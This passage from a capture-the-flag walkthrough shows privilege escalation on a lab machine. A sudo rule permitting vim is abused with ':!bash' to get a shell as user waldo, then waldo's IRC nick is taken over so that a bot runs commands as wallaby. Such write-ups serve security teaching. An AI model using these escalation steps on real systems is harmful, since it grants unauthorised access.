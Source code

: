 
  
  
You need to kick out waldo so you can use its nick and let the bot run
commands as wallaby. How do we do that? Remember the vim command in sudo -l?  
  

    
    
    www-data@ubuntu:/$ sudo -l  
    sudo -l  
    Matching Defaults entries for www-data on ubuntu:  
        env_reset, mail_badpass,  
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
      
    User www-data may run the following commands on ubuntu:  
        (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf  
        (ALL) NOPASSWD: /sbin/iptables  
    www-data@ubuntu:/$ sudo -u waldo usr/bin/vim /etc/apache2/sites-available/000-default.conf  
    fault.confldo usr/bin/vim /etc/apache2/sites-available/000-de   
      
    _TYPE :!bash_
    
    
       
    waldo@ubuntu:/$ whoami  
    whoami  
    waldo  
    

  
We got a shell for waldo! You can now attach the tmux terminal and use waldo's
session. Now, either log out waldo OR use the CLI based IRC client running to
run commands as him. I chose the first since I'd rather use a GUI.  
  

#### On waldo's shell

1\. "tmux attach"  
2\. /exit  

    
    
    * waldo has quit (Quit: leaving)  
    

  
On hexchat:  

1\. /nick waldo  

    
    
    * You are now known as waldo  
    

  
2\. Go to wallabysbot window and chat with the bot, you can now run ".run
whoami"  

    
    
    <waldo> .run whoami  
    <wallabysbot> b'wallaby   
    

  